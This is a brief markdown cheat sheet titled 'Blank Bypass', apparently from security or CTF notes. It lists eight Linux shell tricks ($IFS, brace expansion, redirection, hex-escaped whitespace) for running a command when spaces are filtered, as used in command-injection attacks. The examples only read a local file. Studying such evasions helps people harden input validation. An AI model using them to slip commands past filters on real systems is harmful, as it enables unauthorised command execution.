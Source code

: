 ```yaml
---
title: Blank Bypass
tags: linux
---
```

1. cat<1.txt

   ![](/images/black1.PNG)

2. cat$IFS$91.txt

   ![](/images/black2.PNG)

3. cat${IFS}1.txt

   ![](/images/black3.PNG)

4. cat<>1.txt

   ![](/images/black4.PNG)

5. {cat,1.txt}

   ![](/images/black5.PNG)

6. CMD=$'\x201.txt'&&cat$CMD

   ![](/images/black6.PNG)

7. CMD=$'\x0a1.txt'&&cat$CMD

   ![](/images/black7.PNG)

8. CMD=$'\x091.txt'&&cat$CMD

   ![](/images/black8.PNG)

